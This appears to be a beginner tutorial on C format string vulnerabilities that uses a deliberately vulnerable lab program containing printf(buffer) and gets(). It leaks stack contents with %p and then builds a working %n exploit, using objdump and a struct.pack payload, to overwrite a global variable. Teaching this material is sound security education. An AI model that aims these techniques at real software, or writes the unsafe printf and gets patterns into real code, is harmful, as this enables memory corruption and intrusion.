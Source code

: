 # Format String Vulnerability 1

Format string vulnerabilities silly bug that is due to the poor coding practice
of the programmer. If an programmer passes an attacker controlled buffer as an
argument to a `printf` call (or any format string related function, e.g `sprintf,
fprintf`), attacker can perform write to arbitrary memory address.  

To understand what I am talking about, take a look at the below example.

```C 
int main(int argc, char** argv) { 
    char buffer[100]; 
    strcpy(buffer, argv[1]); 
    printf(buffer); 
    return 0; 
} 
```

`printf` takes variable number of
arguments and the `format specifier` identifies how many arguments it **should**
access and what kind of data is stored onto that. To read how it takes variable
number of argument refer
[this](https://www.tutorialspoint.com/cprogramming/c_variable_arguments.htm).
And to read more about `format specifiers` refer
[this](http://www.cplusplus.com/reference/cstdio/printf/).

In the above mentioned program if you pass **sane** input like your name. e.g
`./string0 Rohit`. You will get your name on the output.  But attacker do not
always thinks of passing the sane output to the program.  Suppose you passed, lets
say `%x` to the program, since attackers knows that first argument to the printf must
be format specifier, if it is not supplied internally( that is through the
program), a malformed format specifier may list that out the content on the
stack.

:astonished: Attacker can the see the content of STACK.

### See Stack's Content
Lets see that in action. Try doing this:
```bash
$ ./string0 "%p %p %p %p %p"
0xffffd7c9 0x64 0xf0b5ff 0xffffd58e 0x1
$ 
```
Hey what just happened? Attacker's mind  :facepunch: you in the face.
`%p` is used to print the content of the memory in hexadecimal and that just
happened. Attacker fooled **printf** to print the content of memory by not giving
sane input but `format specifier` as input. This is termed as format string
vulnerability.

### What else we can do?
It This is not just limited to displaying the content in memory. This vulnerability
allows the attacker to perform writes to arbitrary memory.
To understand how the writes are actually happening, we need to understand the
concept of `%n`. This format specifier allows the printf to write to memory
location specified by one of its argument.
e.g  
```C
printf("rohit%n", &i);
printf("%d", i);   //outputs to 5 == len(rohit)
```
In brief `%n` writes the number of characters printed so far get saved to `i`.  

Now we have two things in mind:
* Copy our own format specifier in printf.
* Write to some memory location onto stack(or some variable).

### Towards actual exploit. :metal:
Lets try to identify after how many 4 bytes memory locations, we are able to get
back to the buffer. So inorder to do it. I will put say `AAAA` in the beginning
of the exploit string. e.g  
``./string1 'AAAA %p %p %p %p %p %p %p %p %p %p %p %p'``
Output  
`AAAA 0xffffd7af 0x64 0xf0b5ff 0xffffd57e 0x1 0xc2 0xffffd674 0xffffd57e
0xffffd680 0x41414141 0x20702520 0x25207025`
Notice, `0x41414141` third to last. This is nothing but the hex of ASCII('A').
This means we reached the buffer after 9 %p and 10th one is buffer location. 
You may need to do several hit and trials in order to identify starting location
of buffer and it might not be same as mine (10th location).

```C
#include<stdio.h>
#include<string.h>
#include<stdio.h>

int myvar;

int main(int argc, char** argv)
{
    char buffer[100];
    gets(buffer);
    printf(buffer);
    if(myvar)
        printf("Cool you changed it .. :) ");
    return 0;
}
```
Now I will demonstrate Change of control flow using the techniques we have just
learned. Consider the above mentioned code. Find out the address of the buffer
from the current stack location using format string vuln.    
`echo -e 'AAAA %p %p %p %p %p %p %p %p %p %p %p %p' | ./string1`  
Output:  
`AAAA 0x1 0xf7ffd918 0xf0b5ff 0xffffd59e 0x1 0xc2 0xffffd694 0xffffd59e
0xffffd69c 0x41414141 0x20702520 0x25207025`.  
Hey its again the same the 10th location. :metal:  

Now consider,    
`echo -e 'AAAA %p %p %p %p %p %p %p %p %p %n' | ./string1`
This above command will write `len(AAAA %p %p %p %p %p %p %p %p %p ) --> 32` to
to the memory pointed by the 10th argument. But the 10th argument is nothing but
the `0x41414141` so it will try to write onto the memory address pointed by
`0x41414141` the value 32. Since it could be **read-only** memory, so you might
get the `Segmentation Fault`. What about putting some sensible address onto the
buffer instead of `0x41414141`. If we do so, then %n will write to that memory
pointed by that location.
Why not getting the address of `myvar`. Since it is global, we can get the
address of globals before the running the program.  
We will use ,  
`objdump -t ./string1 | grep myvar`      
`0804a028 g     O .bss	00000004              myvar`    
The first data column contains the address for the `myvar`.   


**Crafting the exploit** to change the variable content then change the control
flow.  
`` echo -e `python -c "import struct; print struct.pack('<I',0x0804a028)"`"%p %p
%p %p %p %p %p %p %p %n" | ./string1``  
Output:  
``(0x1 0xf7ffd918 0xf0b5ff 0xffffd59e 0x1 0xc2 0xffffd694 0xffffd59e 0xffffd69c
Cool you changed it .. :)``

:cool: We have exploited the binary.

#### What we have learnt with this?
Format string vulnerability allows to write to arbitrary location in programs
memory.





